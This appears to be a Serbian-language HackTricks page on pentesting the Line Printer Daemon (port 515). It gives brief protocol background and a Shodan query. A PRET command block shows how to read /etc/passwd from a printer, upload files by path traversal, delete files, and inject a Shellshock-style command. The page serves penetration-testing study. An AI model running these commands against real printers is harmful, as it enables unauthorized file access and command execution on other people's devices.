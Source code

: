 # 515 - Pentesting Line Printer Daemon (LPD)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite videti **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzeti HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

#### **Uvod u LPD protokol**

U 1980-im godinama, razvijen je **Line Printer Daemon (LPD) protokol** u Berkeley Unix-u, koji je kasnije formalizovan kroz RFC1179. Ovaj protokol funkcioniše preko porta 515/tcp, omogućavajući interakciju putem `lpr` komande. Suština štampanja putem LPD-a uključuje slanje **kontrolnog fajla** (za specificiranje detalja posla i korisnika) zajedno sa **podacima fajla** (koji sadrži informacije za štampanje). Dok kontrolni fajl omogućava izbor **različitih formata fajlova** za podatke, rukovanje ovim fajlovima određeno je specifičnom implementacijom LPD-a. Široko priznata implementacija za Unix-slične sisteme je **LPRng**. Posebno, LPD protokol može biti iskorišćen za izvršavanje **zlonamernih PostScript** ili **PJL print poslova**.

#### **Alati za interakciju sa LPD štampačima**

[**PRET**](https://github.com/RUB-NDS/PRET) uvodi dva osnovna alata, `lpdprint` i `lpdtest`, koji pružaju jednostavan način za interakciju sa LPD-kompatibilnim štampačima. Ovi alati omogućavaju različite akcije, od štampanja podataka do manipulisanja fajlovima na štampaču, kao što su preuzimanje, otpremanje ili brisanje:

```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```

Za pojedince koji su zainteresovani za dalje istraživanje područja **hakovanja štampača**, sveobuhvatni resurs može se pronaći ovde: [**Hakovanje štampača**](http://hacking-printers.net/wiki/index.php/Main\_Page).

## Shodan

* `port 515`

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje trikove hakovanja slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
